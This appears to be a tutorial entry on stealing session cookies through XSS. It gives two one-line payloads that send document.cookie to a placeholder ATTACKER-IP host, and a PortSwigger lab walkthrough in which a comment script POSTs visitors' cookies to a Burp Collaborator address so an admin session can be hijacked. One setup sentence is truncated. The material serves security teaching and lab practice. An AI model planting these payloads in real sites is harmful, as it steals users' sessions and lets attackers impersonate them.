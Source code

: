Stealing cookies is a traditional way to exploit XSS as most web applications uses cookies for session handling. Once an attacker is able to retrieve the victim's cookies, they can use it to impersonate the victim. However, this practice has some limitations:
- The victim might not be logged in.
- Many applications hide their cookies from JavaScript using the `HttpOnly` flag.
- Sessions might be locked to additional factors like the user's IP address.
- The session might time out before you're able to hijack it.
> Note: Make sure that `HttpOnly` is set to false before attempting this attack, otherwise, it will not work. This is because the `HttpOnly` flag helps mitigate the risk of client side scripting from accessing the protected cookies.
## XSS Payloads
An attacker can start their own server using 

submit the following payloads:
```javascript
document.location='http://ATTACKER-IP/index.php?c='+document.cookie;
new Image().src='http://ATTACKER-IP/index.php?c='+btoa(document.cookie);
```
## Example from PortSwigger Academy
1. Using [Burp Suite Professional](https://portswigger.net/burp/pro), go to the [Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) tab.
2. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.
3. Submit the following payload in a blog comment, inserting your Burp Collaborator subdomain where indicated:
```html
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body: document.cookie
});
</script>
```
This script will make anyone who views the comment issue a POST request containing their cookie to your subdomain on the public Collaborator server. 
4. Go back to the Collaborator tab, and click "Poll now". You should see an HTTP interaction. If you don't see any interactions listed, wait a few seconds and try again.
5. Take a note of the value of the victim's cookie in the POST body.
6. Reload the main blog page, using Burp Proxy or Burp Repeater to replace your own session cookie with the one you captured in Burp Collaborator. Send the request to solve the lab. To prove that you have successfully hijacked the admin user's session, you can use the same cookie in a request to `/my-account` to load the admin user's account page.
> Note: If Burp Collaborator is not available, we can use [CanaryTokens](https://canarytokens.org/generate#) and [interactsh](https://github.com/projectdiscovery/interactsh) as alternatives.